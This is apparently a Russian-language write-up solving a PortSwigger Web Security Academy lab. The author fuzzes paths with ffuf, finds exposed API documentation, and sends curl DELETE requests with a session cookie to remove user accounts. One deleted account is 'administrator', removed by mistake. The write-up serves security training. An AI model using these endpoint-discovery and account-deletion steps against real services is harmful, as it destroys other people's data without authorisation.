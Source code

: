 ```yaml
---
title: "Exploiting an API endpoint using documentation"
date: 2025-08-28
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/api-testing/api-testing-api-documentation/api-testing/lab-exploiting-api-endpoint-using-documentation"
classes: wide
---
```


Для прохождения лабы нужно удалить пользователя `carlos`. Для этого нужно найти подходящий ендпоинт.

Для в хода в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
```

## Solution

Зайду в аккаунт, чтобы посмотреть, что вообще доступно пользователю.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/1.png){: height="200" .align-center}

Попробую обновить почту, чтобы посмотреть, как формируется запрос для этого. Предварительно запущу [`ffuf`](https://cu63.github.io/tools/ffuf/) по списку популярных путей в `API`, чтобы попробовать найти ендпоинты.

```bash
ffuf -u https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/FUZZ -w wordlists/common.txt
```

Итак, попробую изменить почту на `new@mail.net`. Для этого отправлю следующий запрос:

```http
PATCH /api/user/wiener HTTP/2
Host: 0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
Cookie: session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/my-account
Content-Type: text/plain;charset=UTF-8
Content-Length: 25
Origin: https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

{"email":"new@email.net"}
```

Судя по всему на сайте есть ендпоинт `/api/user/<username>`. Посмотрю, что насканил `ffuf`:

```
Login                   [Status: 200, Size: 3172, Words: 1315, Lines: 64, Duration: 63ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 61ms]
api                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 60ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 65ms]
filter                  [Status: 200, Size: 10729, Words: 5059, Lines: 199, Duration: 62ms]
login                   [Status: 200, Size: 3172, Words: 1315, Lines: 64, Duration: 63ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 62ms]
my-account              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 61ms]
```

Он тоже насканил `/api`. Попробую открыть эту страницу:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/2.png){: height="200" .align-center}

Собственно вот они — все доступные методы `API`. Среди них есть нужный мне — `DELETE`. Отправлю нужный запрос с помощью `curl`:

```bash
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/administrator                                      
"Unauthorized"%
```

Попробую добавить `Cookie`:

```
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/administrator -b "session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5"                                                                                                               
{"status":"User deleted"}%
```

Пуф, и нет человека)

Упс... Я удалил не того. Ну и ладно. На этот раз все получится)

```
cu63:~/ $ curl -X 'DELETE' https://0a0900cf0462b24280dd7bf200ef0015.web-security-academy.net/api/user/carlos -b "session=AIJf2Ci7rfaIg4i9yPYNfeLCp1RISEB5"                                                                                                               
{"status":"User deleted"}%
```

Теперь лаба решена)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_api_testing/IMG_Exploiting_an_API_endpoint_using_documentation/3.png){: height="200" .align-center}
